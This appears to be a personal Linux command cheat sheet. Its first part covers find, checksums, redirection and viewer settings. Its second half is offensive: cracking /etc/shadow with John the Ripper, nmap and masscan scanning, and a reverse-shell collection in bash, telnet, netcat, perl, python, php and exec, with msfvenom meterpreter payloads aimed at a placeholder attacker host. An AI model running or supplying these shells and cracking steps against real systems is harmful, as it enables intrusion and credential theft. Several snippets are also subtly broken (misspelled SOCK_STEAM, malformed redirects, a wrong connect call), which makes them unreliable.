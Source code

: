 Linux
======

change default application
  - open file browser, such as **pcmanfm**, right click the file and select **open with**.
  - choose the program or shell command, then select some checkbox with label "always open this kind of file .."

zathura clipboard
  1. in viewer, :code:``set selection-clipboard clipboard``
  #. in ``~/.config/zathura/zathurarc`` or ``/etc/zathurarc`` add the above command


find
  1. `link <https://wangchujiang.com/linux-command/c/find.html>`_
  #. :code:`find . type f -size +10k`
  #. :code:`find . type f -atime -7`
  #. :code:`find . -maxdepth 3 -type f`
  #. :code:`find . -mindepth 2 -type f`
  #. :code:`find /home -name "*.txt" -o -name "*.pdf"`
  #. :code:`find . -regex ".*\(\.txt\|\.pdf\)$"`
  #. :code:`find . -type f -name "*.txt" -delete`
  #. :code:`find . -type f -perm 777`
  #. :code:`find . -type f -user root -exec chown tom {} \;`
  #. :code:`find . -type f -mtime +30 -name "*.log" -exec cp {} old \;`
  #. :code:`find . -name "*.java"|xargs cat | gerp -v ^$|wc -l`


John the Ripper
  1. unshadow /etc/passwd /etc/shadow > test_passwd
  #. john --word-list=path_to_wordlist test_passwd


arp -l


nmap
  1. nmap -Pn -p22,80,111,49780 -A -oN nmap.txt IP
  #. nmap -v -sV IP/sub_net


masscan
  1. :code:`masscan -p1-65535,U:1-65535 IP --rate=1000`


checksum
  1. :code:`echo 'hello world' | md5sum -`
  #. :code:`echo 'hello world' | sha256sum -`
  #. :code:`echo 'hello world' | sha512sum -`


redirect input/output
  1. :code:`cmd >&n` send output to file descriptor n
  1. :code:`cmd m>&n` send file descriptor m to file descriptor n
  #. :code:`cmd > file 2>1` redirect stderr to stdout, then redict both to file.
  #. :code:`cmd &> file` redirect stderr and stdout to file
  #. :code:`cmd >& file` redirect stderr and stdout to file
  #. :code:`cmd >& file 0>&1` redicrect stderr, stdout, stdin to file


sudo
  1. :code:`echo password | sudo -S comamnd`


reverse shell
  1. bash

     - attacker: :code:`nc -nvlp 4444`
     - target: :code:`bash -i >& /dev/tcp/attack_ip/attack_port 0>&1` 

  #. telnet

     - attacker: :code:`nc -nvlp 4444; nc -nvlp 5555`
     - target: :code:`telnet attack_ip 4444 | /bin/bash | telnet attack_ip 5555`

  #. netcat

     - attacker: :codee:`nc -nvlp 4444`
     - target: :code:`nc -v attack_ip 4444 -e /bin/bash`

  #. perl

     - attacker: :code:`nc -nvlp 4444`
     - target: :code:`perl -e 'use Socket;$i="attack_ip";$p=4444;socket(S,PF_INET,SOCK_STEAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">$S");exec("/bin/bash -i");};'`

  #. python

    - attacker: :code:`nc -nvlp 4444`
    - target: :code:`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect("attacker_ip",attacker_port);os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i]);'`

  #. php

     - attacker: :code:`nc -nvlp 4444`
     - target: :code:`php -r '$sock=fsockopen("attack_ip", attack_port);exec("/bin/bash -i <&3 >&3 2>&3");'`

  #. msf

     - php: :code:`msfvenom -p php/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=attacker_port -f raw > /root/shell.php`
     - windows: :code:`msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=attacker_port -f exe > /root/hacker.exe`
     - linux: :code:`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=attacker_port -f elf > /root/shell`
     - attacker 

       - :code:`use exploit/multi/handler`
       - :code:`set payload windows/meterpreter/reverse_tcp`
       - :code:`set LHOST attacker_ip`
       - :code:`set LPORT attacker_port`
       - :code:`run # or exploit`

  #. exec

     - attacker: :code:`nc -nvlp 4444`
     - target: :code:`exec 5<>/dev/tcp/attacker_ip/attacker_port; cat <&5 | while read line; do $line 2>&5 >&5; done`

    
